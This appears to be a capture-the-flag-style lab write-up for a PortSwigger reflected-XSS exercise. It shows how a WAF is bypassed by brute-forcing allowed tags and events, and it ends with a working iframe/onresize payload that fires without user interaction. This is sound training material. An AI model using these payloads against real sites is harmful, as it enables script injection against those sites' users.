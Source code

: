 # Reflected XSS into HTML context with most tags and attributes blocked
# Objective
This lab contains a reflected XSS vulnerability in the search functionality but uses a web application firewall (`WAF`) to protect against common XSS vectors.\
\
To solve the lab, perform a cross-site scripting attack that bypasses the `WAF` and calls the `print()` function.

# Solution
## Analysis
Payload: `TestPayload` doesn’t show anything interesting.
|![](Images/image-46.png)|
|:--:| 
| *Test payload* |

Payload: `<img src=0 onerror='alert()'>` returns error `"Tag is not allowed"`.
|![](Images/image-47.png)|
|:--:| 
| *Test payload* |

## XSS Exploit
[Tags and Events used for brute forcing (Copy tags to clipboard)](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

### Brute forcing tag
|![](Images/image-48.png)|
|:--:| 
| *Payload position* |
|![](Images/image-49.png)|
| Working tag: `<body>` |

### Brute forcing event
`%20` - is just space URL encoded
|![](Images/image-50.png)|
|:--:| 
| *Payload position* |
|![](Images/image-51.png)|
| Working events - for exapmle `onresize` |

### Brute forcing event
Payload below is triggered when user changes the size of the browser window:
```
<body onresize='print()'>
```
|![](Images/image-52.png)|
|:--:| 
| *Testing payload* |
|![](Images/image-53.png)|
| *Result* |

Presented above payload require user interaction. In order to perform this attack without any user interaction above payload (`<body onresize='print()'>`) must be rendered inside of iframe because it can be resized. Final Payload:
```
<iframe src="$ip/?search="><body onresize=print()>" onload=this.style.width='100px'>
```
After the iframe is loaded, it is resized and payload is triggered. 

